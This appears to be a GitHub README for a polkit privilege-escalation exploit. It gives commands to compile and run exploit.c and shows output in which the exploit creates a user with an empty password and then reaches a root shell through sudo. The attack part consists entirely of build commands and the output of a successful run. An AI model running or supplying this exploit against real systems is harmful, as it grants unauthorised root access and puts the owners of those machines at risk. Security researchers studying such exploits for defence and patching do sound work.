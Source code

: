 # polkit-vuln
Exploiting boundaries

## Steps to run

Compile the exploit
```Shell
gcc -Wall exploit.c -o exploit $(pkg-config --libs --cflags dbus-1)
```

Run the exploit
```Shell
./exploit
```

Output
```Shell
┌──kali㉿kali)-[~]
└─$ ./exploit
[*] creating "pwned-1631954041" user ...
[!] user has been created!
[*] user: pwned-1631954041, uid: 1006
[*] setting an empty password for "pwned-1631954041" user..
[*] an empty password has been set for "pwned-1631954041" user!
[!] run: "sudo su root" as "pwned-1631954041" user to get root
┌──(pwned-1631954041㉿kali)-[/home/kali]
└─$ sudo su root

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

┌──(root💀kali)-[/home/kali]
└─# 

```



